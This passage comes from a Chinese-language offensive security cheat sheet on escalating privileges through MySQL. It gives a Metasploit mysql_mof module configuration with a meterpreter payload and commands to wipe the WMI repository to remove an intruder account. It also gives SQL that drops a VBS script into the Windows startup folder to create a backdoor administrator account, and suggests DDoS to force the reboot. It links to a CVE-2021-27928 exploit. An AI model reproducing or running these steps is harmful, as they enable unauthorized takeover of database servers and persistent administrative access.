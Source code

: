 我们提权成功后,就算被删号,mof 也会在五秒内将原账号重建,那么这给我们退出测试造成了很大的困扰,所以谨慎使用.那么我们如何删掉我们的入侵账号呢？
```
net stop winmgmt
del c:/windows/system32/wbem/repository
net start winmgmt
```

- MSF 模块
    ```bash
    use exploit/windows/mysql/mysql_mof
    set RHOSTS [ip]
    set USERNAME [user]
    set PASSWORD [pass]
    set payload windows/meterpreter/bind_tcp
    set RHOST [ip]
    set LPORT 4444
    exploit
    ```

**启动项提权**

在前两种方法都失败时,那可以试一下启动项提权..因为要求达到的条件和 mof 几乎一样,并且要重启服务,所以不是十分推荐.原理还是使用 mysql 写文件,写入一段 VBS 代码到开机自启动中,服务器重启达到创建用户并提权,可以使用 DDOS 迫使服务器重启.

提权条件
1. file_priv 不为 null
2. 已知 root 密码

```sql
create table a (cmd text);
insert into a values ("set wshshell=createobject (""wscript.shell"") " );
insert into a values ("a=wshshell.run (""cmd.exe /c net user sqladmin 123456 /add"",0) " );
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators sqladmin /add"",0) " );
select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
```

**CVE-2021-27928**
- 相关文章
    - [CVE-2021-27928漏洞复现](https://blog.csdn.net/Cypher_X/article/details/117073244)

- POC | Payload | exp
    - [MariaDB 10.2 - 'wsrep_provider' OS Command Execution](https://www.exploit-db.com/exploits/49765)

---

## Oracle

Oracle Database Server 是美国甲骨文（Oracle）公司的一套关系数据库管理系统。该数据库管理系统提供数据管理、分布式处理等功能。

> fofa : app="Oracle-数据库"

**版本号**
- oracle 版本号是真的乱,Oracle 数据库版本号请看维基百科 [Oracle Database](https://en.wikipedia.org/wiki/Oracle_Database)
